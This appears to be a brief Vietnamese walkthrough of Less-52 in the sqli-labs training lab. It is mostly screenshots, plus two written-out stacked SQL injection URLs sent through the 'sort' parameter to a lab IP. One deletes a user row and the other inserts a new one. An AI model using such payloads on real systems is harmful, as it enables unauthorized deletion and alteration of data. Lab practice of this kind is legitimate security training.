










# Less 52

Đề bài cho phép truyền vào params là `sort`



Thử truyền vào một số giá trị







Tôi thử truyền vào một số giá trị có thể gây ra lỗi





Ta thấy lỗi không được hiển thị lên màn hình

Sử dụng time based để khai thác DB





Trong bài này có sử dụng hàm cho phép thực thi nhiều câu query cùng lúc



Tôi thực hiện xóa username `less44` và thêm vào username `less52`

```
http://192.168.84.233/sqli-labs/Less-52/?sort=1; delete from users where id=44 --+
http://192.168.84.233/sqli-labs/Less-52/?sort=1; insert into users values (52, 'less52','less52') --+
```


